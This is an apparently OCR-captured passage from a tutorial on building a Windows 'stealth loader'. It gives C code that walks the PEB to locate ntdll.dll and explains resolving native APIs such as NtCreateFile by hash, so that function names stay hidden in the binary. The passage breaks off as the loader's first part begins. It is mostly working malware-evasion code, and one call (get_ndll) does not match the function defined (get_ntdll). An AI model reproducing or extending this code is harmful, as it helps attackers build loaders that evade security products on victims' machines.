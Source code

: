         typedef struct _PEB_LDR_DATA {
            ULONG Length;
            BOOLEAN Initialized;
            HANDLE SsHandle;
            LIST_ENTRY InLoadOrderModuleList;
            LIST_ENTRY InMemoryOrderModuleList;
            LIST_ENTRY InInitializationOrderModuleList;
        } PEB_LDR_DATA, *PPEB_LDR_DATA;

        typedef struct _PEB {
            BYTE Reserved1[2];
            BYTE BeingDebugged;
            BYTE Reserved2[1];
            PVOID Reserved3[2];
            PPEB_LDR_DATA Ldr;
            // Other members are not needed for this example
        } PEB, *PPEB;

        // Function to get the base address of ntdll.dll
        void* get_ntdll() {
        #ifdef _WIN64
            PPEB pPeb = (PPEB)__readgsqword(0x60); // Get PEB from TIB (x64)
        #else
            PPEB pPeb;
            __asm__ (
                "movl %%fs:0x30, %0"
                : "=r" (pPeb)
            ); // Get PEB from TIB (x86)
        #endif
            PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)pPeb->Ldr;
            PLIST_ENTRY pListEntry = pLdr->InMemoryOrderModuleList.Flink;

            while (pListEntry != &pLdr->InMemoryOrderModuleList) {
                PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pListEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
                if (_wcsicmp(pEntry->BaseDllName.Buffer, L"ntdll.dll") == 0) {
                    return pEntry->DllBase;
                }
                pListEntry = pListEntry->Flink;
            }
            return NULL;
        }

        ```
        - Great news! Now, we have the base address of the ntdll library, and we can use it to extract the addresses of the functions used by our stealth loader.
        - Returning to obfuscating the function pointers and hiding the function names in the binary file, we have to follow some steps:
            - step 1:
                - get a valid pointer to the base address of the ntdll library: 
                ```c
                void *pntdll=get_ndll();
                ```
                - create a void pointer to the func name and resolve teh base address by get_proc_address_by_hash and sure you have to use the hash  we previously get to get the correct function!!!!. 
                - at last cast the function pointer to its definition type.
                let began with the NtCreateFile.
                ```c
                    void *p_nt_create_file=get_proc_address_by_hash(pntdll,NtCreateFile_CRC32b);
                    NtCreateFile_t g_nt_create_file =(NtCreateFile_t) p_nt_create_file;// casting g_nt_create_file as NtCreateFile_t 
                ```
    - Stealh Loader Part1
    ```c
        NTSTATUS status;